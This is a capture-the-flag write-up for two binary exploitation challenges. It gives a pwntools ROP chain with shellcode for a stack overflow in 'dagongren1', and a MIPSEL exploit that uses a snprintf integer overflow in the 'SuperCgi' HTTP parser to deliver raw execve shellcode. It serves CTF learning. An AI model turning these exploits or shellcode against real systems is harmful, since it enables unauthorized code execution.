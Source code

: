 ## dagongren1

Simple overflow. The point is pipe redirection.

```python
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"

binary = ("./dagongren1")
elf = ELF(binary, checksec=False)

if not args['REMOTE']:
    r = process(binary)
else:
    r = remote("81.70.209.171", 50601)

pop_rdi = 0x0000000000400813
pop_rsi_r15 = 0x0000000000400811

sh = 'a'*0x28
sh += flat([
    pop_rdi,
    0x40088B, # %s
    pop_rsi_r15,
    0x600e00,
    0,
    elf.plt['__isoc99_scanf'],
    0x600e00
    ])

r.recvuntil("On\n")
r.sendline(sh)

pause()
r.sendline(asm(shellcraft.sh()))

r.sendline("exec /bin/sh 1>&0")
r.interactive()
```

## SuperCgi

A simple HTTP header parser written in MIPSEL32. The vuln is below:

```c
  v3 = 0xFF;
  i = 0;
  do
  {
    if ( !fgets(buf, 1024, stdin) || !strcoll(buf, "\n") || !strcoll(buf, "\r\n") )
      break;
    v0 = strlen(UA);
    if ( !strncmp(buf, UA, v0) )
    {
      v1 = strlen(UA);
      i = snprintf((int)&ptr[i], v3, "%s", &buf[v1 + 1]);
      v3 -= i;
    }
  }
```

`snprintf` will return more than v3, the causing integer overflow. Thus we can overflow the stack.

We simple write shellcode on the bss section (which seems RWX), and jumps to shellcode.

```python
from pwn import *
context.arch = 'mips'
context.endian = 'little'
context.log_level = "debug"
context.bits = 32
context.terminal = ['tmux', 'split', '-h']

import sys 

if not args['REMOTE']:
    r = process(['qemu-mipsel', './SuperCgi'])
    #r = process(['qemu-mipsel', '-g', '1234', './SuperCgi'])
else:
    r = remote("81.70.209.171", 50803)

request = "GET /"
r.sendline(request)

ua = "User-Agent: " + 'a'*0x20 
r.sendline(ua)

ua = "User-Agent: " + 'a'*0xf0
r.sendline(ua)

ua = "User-Agent: " 
ua += 'b'*(0x20-5)
#ua += p32(0x7ffff3c0)
#ua += p32(0x7ffffb10)
ua += p32(0x412e50)
r.sendline(ua)

ua = "\x50\x73\x06\x24\xff\xff\xd0\x04\x50\x73\x0f\x24\xff\xff\x06\x28\xe0\xff\xbd\x27\xd7\xff\x0f\x24\x27\x78\xe0\x01\x21\x20\xef\x03\xe8\xff\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x23\xab\x0f\x02\x24\x0c\x01\x01\x01/bin/sh\x00"  
r.sendline(ua)
r.sendline("")

r.interactive()
```
